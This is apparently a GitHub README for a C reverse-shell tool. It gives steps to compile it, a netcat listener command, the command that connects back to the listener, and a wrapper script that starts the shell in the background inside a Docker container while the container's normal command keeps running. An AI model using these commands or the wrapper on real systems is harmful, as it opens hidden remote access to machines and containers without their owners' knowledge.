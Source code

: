 # simple-reverse-shell
C program for reverse shell

## How to use?

### Compile
```
git clone https://github.com/thevops/simple-reverse-shell
cd simple-reverse-shell
gcc rshell.c -o rshell
```

### Run
- Listener machine (use netcat)
    - nc -lp 4444

- Client machine
    - ./rshell IP PORT
        - IP - IPv4 address of listener machine
        - PORT - port above (4444)

### Example use case

Enter into Docker container (for example: AWS Fargate)
- **only for tests**
- create script wrapper for CMD
```bash
#!/bin/sh
set -m # for job control, im not sure about this line

./rshell IP PORT & # put in background

exec CMD
```
